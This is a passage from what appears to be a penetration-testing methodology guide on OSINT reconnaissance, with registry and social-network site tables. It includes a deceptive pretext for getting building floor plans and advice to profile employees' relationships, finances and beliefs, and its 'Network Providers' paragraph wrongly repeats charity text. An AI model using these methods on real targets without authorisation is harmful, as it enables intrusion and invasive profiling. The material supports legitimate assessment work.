| North Carolina         | `http://www.secstate.state.nc.us/research.htm <http://www.secstate.state.nc.us/research.htm>`__                                                               |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| North Dakota           | `http://www.state.nd.us/sec <http://www.state.nd.us/sec>`__                                                                                                   |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Ohio                   | `http://serform.sos.state.oh.us/pls/report/report.home <http://serform.sos.state.oh.us/pls/report/report.home>`__                                             |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Oklahoma               | `http://www.oklahomacounty.org/coclerk/ucc/default.asp <http://www.oklahomacounty.org/coclerk/ucc/default.asp>`__                                             |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Oregon                 | `http://egov.sos.state.or.us/br/pkg_web_name_srch_inq.login <http://egov.sos.state.or.us/br/pkg_web_name_srch_inq.login>`__                                   |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Pennsylvania           | `http://www.dos.state.pa.us/DOS/site/default.asp <http://www.dos.state.pa.us/DOS/site/default.asp>`__                                                         |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Rhode Island           | `http://155.212.254.78 <http://155.212.254.78/>`__                                                                                                            |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| South Carolina         | `http://www.scsos.com/corp_search.htm <http://www.scsos.com/corp_search.htm>`__                                                                               |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| South Dakota           | `http://www.state.sd.us <http://www.state.sd.us/>`__                                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Tennessee              | `http://www.state.tn.us/sos/service.htm <http://www.state.tn.us/sos/service.htm>`__                                                                           |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Texas                  | `https://ourcpa.cpa.state.tx.us/coa/Index.html <https://ourcpa.cpa.state.tx.us/coa/Index.html>`__                                                             |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Utah                   | `http://www.commerce.state.ut.us <http://www.commerce.state.ut.us/>`__                                                                                        |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Vermont                | `http://www.sec.state.vt.us/seek/database.htm <http://www.sec.state.vt.us/seek/database.htm>`__                                                               |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Virginia               | `http://www.state.va.us <http://www.state.va.us/>`__                                                                                                          |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Washington             | `http://www.dol.wa.gov/business/UCC/ <http://www.dol.wa.gov/business/UCC/>`__                                                                                 |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| West Virginia          | `http://www.wvsos.com/wvcorporations <http://www.wvsos.com/wvcorporations>`__                                                                                 |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Wisconsin              | `http://www.wdfi.org/corporations/crispix <http://www.wdfi.org/corporations/crispix>`__                                                                       |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Wyoming                | `http://soswy.state.wy.us/Corp_Search_Main.asp <http://soswy.state.wy.us/Corp_Search_Main.asp>`__                                                             |
+------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------+

Physical
^^^^^^^^

Often the first step in OSINT is to identify the physical locations of
the target corporation. This information might be readily available for
publically known or published locations, but not quite so easy for more
secretive sites. Public sites can often be location by using search
engines such as:

-  Google -`http://www.google.com <http://www.google.com/>`__
-  Yahoo - `http://yahoo.com <http://yahoo.com/>`__
-  Bing - `http://www.bing.com <http://www.bing.com/>`__
-  Ask.com - `http://ask.com <http://ask.com/>`__

Locations
'''''''''

Shared/Individual
'''''''''''''''''

As part of identifying the physical location it is important to note if
the location is an individual building or simply a suite in a larger
facility. It is important to attempt to identify neighboring businesses
as well as common areas.

Owner
'''''

Once the physical locations have been identified, it is useful to
identify the actual property owner(s). This can either be an individual,
group, or corporation. If the target corporation does not own the
property then they may be limited in what they can physically do to
enhance or improve the physical location.

Land/tax records


Tax records:

http://www.naco.org/Counties/Pages/CitySearch.aspx

Land and tax records generally include a wealth of information on a
target such as ownership, possession, mortgage companies, foreclosure
notices, photographs and more. The information recorded and level of
transparency varies greatly by jurisdiction. Land and tax records within
the United States are typically handled at the county level.

To start, if you know the city or zipcode in which your target resides,
use a site such as http://publicrecords.netronline.com/ to determine
which county that is in. Then switching over to Google you can use a
query such as "XXXX county tax records", "XXXX county recording office"
or "XXXX county assessor" and that should lead you to a searchable
online database if one exists. If it does not exist, you can still call
the county recording office and request that they fax you specific
records if you have an idea of what you are looking for.

Building department:

For some assessments, it might make sense to go a step further and query
the local building department for additional information. Depending on
the city, the target's site might be under county or city jurisdiction.
Typically that can be determined by a call to either entity.

The building department generally has floor plans, old & current
permits, tenant improvement information and other similar information on
file. Buried in that information might be names of contracting firms,
engineers, architects and more. All of which could be used with a tool
such as SET. In most cases, a phone call will be required to obtain any
of this information but most building departments are happy to hand it
out to anyone who asks.

Here is a possible pretext you could use to obtain floor plans: You
could call up and say that you are an architectural consultant who has
been hired to design a remodel or addition to the building and it would
help the process go much smoother if you could get a copy of the
original plans.

Datacenter Locations
^^^^^^^^^^^^^^^^^^^^

Identifying any target business data center locations via either the
corporate website, public filings, land records or via a search engine
can provide additional potential targets.

Time zones
''''''''''

Identifying the time zones that the target operates in provides valuable
information regarding the hours of operation. It is also significant to
understand the relationship between the target time zone and that of the
assessment team. A time zone map is often useful as a reference when
conducting any test.

`TimeZone Map <:File:Penetration_Testing_Execution_02.png>`__

Offsite gathering
'''''''''''''''''

Identifying any recent or future offsite gatherings or parties via
either the corporate website or via a search engine can provide valuable
insight into the corporate culture of a target. It is often common
practice for businesses to have offsite gatherings not only for
employees, but also for business partners and customers. Collecting this
data could provide insight into potential items of interest to an
attacker.

Product/Services
''''''''''''''''

Identifying the target business products and any significant data
related to such launches via the corporate website, new releases or via
a search engine can provide valuable insight into the internal workings
of a target. It is often common practice for businesses to make such
notifications publicly in an effort to garner publicity and to inform
current and/or new customers of the launch. Publicly available
information includes, but is not limited to, foreign language documents,
radio and television broadcasts, Internet sites, and public speaking.

Company Dates
'''''''''''''

Significant company dates can provide insight into potential days where
staff may be on alert higher than normal. This could be due to potential
corporate meetings, board meetings, investor meetings, or corporate
anniversary. Normally, businesses that observe various holidays have a
significantly reduced staff and therefore targeting may prove to be much
more difficult during these periods.

Position identification
'''''''''''''''''''''''

Within every target it is critical that you identify and document the
top positions within the organization. This is critical to ensure that
the resulting report is targeting the correct audience. At a minimum,
key employees should be identified as part of any engagement.

Organizational Chart
''''''''''''''''''''

Understanding the organizational structure is important, not only to
understand the depth of the structure, but also the breadth. If the
organization is extremely large, it is possible that new staff or
personnel could go undetected. In smaller organizations, the likelihood
is not as great. Getting a good picture of this structure can also
provide insight into the functional groups. This information can be
useful in determining internal targets.

Corporate Communications
''''''''''''''''''''''''

Identifying corporate communications either via the corporate website or
a job search engine can provide valuable insight into the internal
workings of a target.

Marketing


Marketing communications are often used to make corporate announcements
regarding currently, or future product releases, and partnerships.

Lawsuits


Communications regarding the targets involvement in litigation can
provide insight into potential threat agent or data of interest.

Transactions


Communications involving corporate transactions may be indirect response
to a marketing announcement or lawsuit.

Job openings
''''''''''''

Searching current job openings or postings via either the corporate
website or via a job search engine can provide valuable insight into the
internal workings of a target. It is often common practice to include
information regarding currently, or future, technology implementations.
Collecting this data could provide insight into potential items of
interest to an attacker. Several Job Search Engines exist that can be
queried for information regarding the target.

+--------------------+--------------------------------------------------------------------------------------+
| \ **Site**\        | \ **URL**\                                                                           |
+--------------------+--------------------------------------------------------------------------------------+
| Monster            | `http://www.monster.com <http://www.monster.com/>`__                                 |
+--------------------+--------------------------------------------------------------------------------------+
| CareerBuilder      | `http://www.careerbuilder.com <http://www.careerbuilder.com/>`__                     |
+--------------------+--------------------------------------------------------------------------------------+
| Computerjobs.com   | `http://www.computerjobs.com <http://www.computerjobs.com/>`__                       |
+--------------------+--------------------------------------------------------------------------------------+
| Craigslist         | `http://www.craigslist.org/about/sites <http://www.craigslist.org/about/sites/>`__   |
+--------------------+--------------------------------------------------------------------------------------+

Relationships
^^^^^^^^^^^^^

Identifying the targets logical relationships is critical to understand
more about how the business operates. Publicly available information
should be leveraged to determine the target business relationship with
vendors, business partners, law firms, etc. This is often available via
news releases, corporate web sites (target and vendors), and potentially
via industry related forums.

Charity Affiliations
''''''''''''''''''''

Identifying any target business charity affiliations via either the
corporate website or via a search engine can provide valuable insight
into the internal workings and potentially the corporate culture of a
target. It is often common practice for businesses to make charitable
donations to various organizations. Collecting this data could provide
insight into potential items of interest to an attacker.

Network Providers
'''''''''''''''''

Identifying any network provisioning or providers either via the
allocated netblock /address information, corporate website or via a
search engine can provide valuable insight into the potentially of a
target. It is often common practice for businesses to make charitable
donations to various organizations. Collecting this data could provide
insight into potential items of interest to an attacker.

Business Partners
'''''''''''''''''

Identifying business partners is critical to gaining insight into not
only the corporate culture of a target, but also potentially
technologies being used. It is often common practice for businesses to
announce partnership agreements. Collecting this data could provide
insight into potential items of interest to an attacker.

Competitors
'''''''''''

Identifying competitors can provide a window into potential adversaries.
It is not uncommon for competitors to announce news that could impact
the target. These could range from new hires, product launches, and even
partnership agreements. Collecting this data is important to fully
understand any potential corporate hostility.

Individuals
~~~~~~~~~~~

Social Networking Profile
^^^^^^^^^^^^^^^^^^^^^^^^^

The numbers of active Social Networking websites as well as the number
of users make this a prime location to identify employee's friendships,
kinships, common interest, financial exchanges, likes/dislikes, sexual
relationships, or beliefs. It is even possible to determine an
employee's corporate knowledge or prestige.

Social Networking Websites
^^^^^^^^^^^^^^^^^^^^^^^^^^

+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| \ **Name**\                 | \ **URL**\                                                                                 | \ **Description/Focus**\                                                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Academia.edu                | `http://www.academia.edu <http://www.academia.edu/>`__                                     | Social networking site for academics/researchers                                                                                                                                                                                            |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Advogato                    | `http://www.advogato.org <http://www.advogato.org/>`__                                     | Free and open source software developers                                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| aNobii                      | `http://www.anobii.com/anobii_home <http://www.anobii.com/anobii_home>`__                  | Books                                                                                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| aSmallWorld                 | `http://www.asmallworld.net <http://www.asmallworld.net/>`__                               | European jet set and social elite world-wide                                                                                                                                                                                                |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| AsianAvenue                 | `http://www.asianave.com <http://www.asianave.com/>`__                                     | A social network for the Asian American community                                                                                                                                                                                           |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Athlinks                    | `http://www.athlinks.com <http://www.athlinks.com/>`__                                     | Open Running, Swimming                                                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Audimated.com               | `http://www.audimated.com <http://www.audimated.com/>`__                                   | Independent Music                                                                                                                                                                                                                           |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Avatars United              | `http://www.avatarsunited.com <http://www.avatarsunited.com/>`__                           | Online games                                                                                                                                                                                                                                |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Badoo                       | `http://badoo.com <http://badoo.com/>`__                                                   | General, Meet new people, Popular in Europe and LatAm                                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Bebo                        | `http://www.bebo.com <http://www.bebo.com/>`__                                             | General                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Bigadda                     | `http://bigb.bigadda.com <http://bigb.bigadda.com/>`__                                     | Indian Social Networking Site                                                                                                                                                                                                               |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Federated Media's BigTent   | `http://www.federatedmedia.net <http://www.federatedmedia.net/>`__                         | Organization and communication portal for groups                                                                                                                                                                                            |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Biip.no                     | `http://www.biip.no <http://www.biip.no/>`__                                               | Norwegian community                                                                                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| BlackPlanet                 | `http://www.blackplanet.com <http://www.blackplanet.com/>`__                               | African-Americans                                                                                                                                                                                                                           |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Blauk                       | `http://blauk.com <http://blauk.com/>`__                                                   | Anyone who wants to tell something about a stranger or acquaintance.                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Blogster                    | `http://www.blogster.com <http://www.blogster.com/>`__                                     | Blogging community                                                                                                                                                                                                                          |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Bolt.com                    | `http://www.bolt.com <http://www.bolt.com/>`__                                             | General                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Buzznet                     | `http://www.buzznet.com <http://www.buzznet.com/>`__                                       | Music and pop-culture                                                                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| CafeMom                     | `http://www.cafemom.com <http://www.cafemom.com/>`__                                       | Mothers                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Cake Financial              | `http://www.cakefinancial.com <http://www.cakefinancial.com/>`__                           | Investing                                                                                                                                                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Care2                       | `http://www.care2.com <http://www.care2.com/>`__                                           | Green living and social activism                                                                                                                                                                                                            |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| CaringBridge                | `http://www.caringbridge.org <http://www.caringbridge.org/>`__                             | Not for profit providing free websites that connect family and friends during a serious health event, care and recovery.                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Cellufun                    | `http://m.cellufun.com <http://m.cellufun.com/>`__                                         | Mobile social game network, Number 8 US mobile website                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Classmates.com              | `http://www.classmates.com <http://www.classmates.com/>`__                                 | School, college, work and the military                                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Cloob                       | `http://www.cloob.com <http://www.cloob.com/>`__                                           | General. Popular in Iran                                                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| CouchSurfing                | `http://www.couchsurfing.org <http://www.couchsurfing.org/>`__                             | Worldwide network for making connections between travelers and the local communities they visit.                                                                                                                                            |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| CozyCot                     | `http://www.cozycot.com <http://www.cozycot.com/>`__                                       | East Asian and Southeast Asian women                                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Cross.tv                    | `http://www.cross.tv <http://www.cross.tv/>`__                                             | Faith Based social network for Christian believers from around the world                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Crunchyroll                 | `http://www.crunchyroll.com <http://www.crunchyroll.com/>`__                               | Anime and forums.                                                                                                                                                                                                                           |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Cyworld                     | | (Korea) `http://cyworld.co.kr <http://cyworld.co.kr/>`__                                 | General. Popular in South Korea.                                                                                                                                                                                                            |
|                             | | (China) `http://www.cyworld.com.cn <http://www.cyworld.com.cn/>`__                       |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| DailyBooth                  | `http://dailybooth.com <http://dailybooth.com/>`__                                         | Photo-blogging site where users upload a photo every day                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| DailyStrength               | `http://www.dailystrength.org <http://www.dailystrength.org/>`__                           | Medical & emotional support community - Physical health, Mental health, Support groups                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Decayenne                   | `http://www.decayenne.com <http://www.decayenne.com/>`__                                   | European and American social elite                                                                                                                                                                                                          |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| delicious                   | `http://www.delicious.com <http://www.delicious.com/>`__                                   | Social bookmarking allowing users to locate and save websites that match their own interests                                                                                                                                                |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| deviantART                  | `http://www.deviantart.com <http://www.deviantart.com/>`__                                 | Art community                                                                                                                                                                                                                               |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Disaboom                    | `http://www.disaboom.com <http://www.disaboom.com/>`__                                     | People with disabilities (Amputee, cerebral palsy, MS, and other disabilities)                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Dol2day                     | `http://www.dol2day.de <http://www.dol2day.de/>`__                                         | Politic community, Social network, Internet radio (German-speaking countries)                                                                                                                                                               |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| DontStayIn                  | `http://www.dontstayin.com <http://www.dontstayin.com/>`__                                 | Clubbing (primarily UK)                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Draugiem.lv                 | `http://www.draugiem.lv <http://www.draugiem.lv/>`__                                       | General (primarily LV, LT, HU)                                                                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| douban                      | `http://www.douban.com <http://www.douban.com/>`__                                         | Chinese Web 2.0 website providing user review and recommendation services for movies, books, and music. It is also the largest online Chinese language book, movie and music database and one of the largest online communities in China.   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Elftown                     | `http://www.elftown.com <http://www.elftown.com/>`__                                       | Community and wiki around Fantasy and sci-fi.                                                                                                                                                                                               |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Entitycube                  | `http://entitycube.research.microsoft.com <http://entitycube.research.microsoft.com/>`__   |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Eons.com                    | `http://www.eons.com <http://www.eons.com/>`__                                             | For baby boomers                                                                                                                                                                                                                            |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Epernicus                   | `http://www.epernicus.com <http://www.epernicus.com/>`__                                   | For research scientists                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Experience Project          | `http://www.experienceproject.com <http://www.experienceproject.com/>`__                   | Life experiences                                                                                                                                                                                                                            |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Exploroo                    | `http://www.exploroo.com <http://www.exploroo.com/>`__                                     | Travel Social Networking.                                                                                                                                                                                                                   |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Facebook                    | | (IPv4) `http://www.facebook.com <http://www.facebook.com/>`__                            | General.                                                                                                                                                                                                                                    |
|                             | | (IPv6) `http://www.v6.facebook.com <http://www.v6.facebook.com/>`__                      |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Faceparty                   | `http://www.faceparty.com <http://www.faceparty.com/>`__                                   | General. Popular UK.                                                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Faces.com                   | | `http://www.face-pic.com <http://www.face-pic.com/>`__                                   | British teens                                                                                                                                                                                                                               |
|                             | | `http://www.faces.com <http://www.faces.com/>`__                                         |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Fetlife                     | `http://fetlife.com <http://fetlife.com/>`__                                               | People who are into BDSM                                                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| FilmAffinity                | `http://www.filmaffinity.com <http://www.filmaffinity.com/>`__                             | Movies and TV Series                                                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| FitFinder                   | `http://www.thefitfinder.co.uk <http://www.thefitfinder.co.uk/>`__                         | Anonymous UK Student Microblogging Website                                                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| FledgeWing                  | `http://www.fledgewing.com <http://www.fledgewing.com/>`__                                 | Entrepreneural community targeted towards worldwide university students                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Flixster                    | `http://www.flixster.com <http://www.flixster.com/>`__                                     | Movies                                                                                                                                                                                                                                      |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Flickr                      | `http://www.flickr.com <http://www.flickr.com/>`__                                         | Photo sharing, commenting, photography related networking, worldwide                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Focus.com                   | `http://www.focus.com <http://www.focus.com/>`__                                           | Business to Business, worldwide                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Folkdirect                  | `http://www.folkdirect.com <http://www.folkdirect.com/>`__                                 | General                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Fotki                       | `http://www.fotki.com <http://www.fotki.com/>`__                                           | Photo sharing, video hosting, photo contests, journals, forums, flexible privacy protection, friend's feed, audio comments and unlimited custom design integration.                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Fotolog                     | `http://www.fotolog.com <http://www.fotolog.com/>`__                                       | Photoblogging. Popular in South America and Spain                                                                                                                                                                                           |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Foursquare                  | `http://foursquare.com <http://foursquare.com/>`__                                         | Location based mobile social network                                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Friends Reunited            | `http://www.friendsreunited.com <http://www.friendsreunited.com/>`__                       | UK based. School, college, work, sport and streets                                                                                                                                                                                          |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Friendster                  | `http://www.friendster.com <http://www.friendster.com/>`__                                 | General. Popular in Southeast Asia. No longer popular in the western world                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Fr¸hst¸ckstreff             | `http://www.fruehstueckstreff.de <http://www.fruehstueckstreff.de/>`__                     | General                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Fubar                       | `http://www.fubar.com <http://www.fubar.com/>`__                                           | dating, an "online bar" for 18 and older                                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Gaia Online                 | `http://www.gaiaonline.com <http://www.gaiaonline.com/>`__                                 | Anime and games. Popular in USA, Canada and Europe. Moderately popular around Asia.                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| GamerDNA                    | `http://www.gamerdna.com <http://www.gamerdna.com/>`__                                     | Computer and video games                                                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Gather.com                  | `http://home.gather.com <http://home.gather.com/>`__                                       | Article, picture, and video sharing, as well as group discussions                                                                                                                                                                           |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Gays.com                    | `http://gays.com <http://gays.com/>`__                                                     | Social network for LGBT community, Guide for LGBT bars, restaurants, clubs, shopping                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Geni.com                    | `http://www.geni.com <http://www.geni.com/>`__                                             | Families, genealogy                                                                                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Gogoyoko                    | `http://www.gogoyoko.com <http://www.gogoyoko.com/>`__                                     | Fair play in Music - Social networking site for musicians and music lovers                                                                                                                                                                  |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Goodreads                   | `http://www.goodreads.com <http://www.goodreads.com/>`__                                   | Library cataloging, book lovers                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Goodwizz                    | `http://www.goodwizz.com <http://www.goodwizz.com/>`__                                     | Social network with matchmaking and personality games to find new contacts. Global, based in France.                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Google Buzz                 | `http://www.google.com/buzz <http://www.google.com/buzz>`__                                | General                                                                                                                                                                                                                                     |
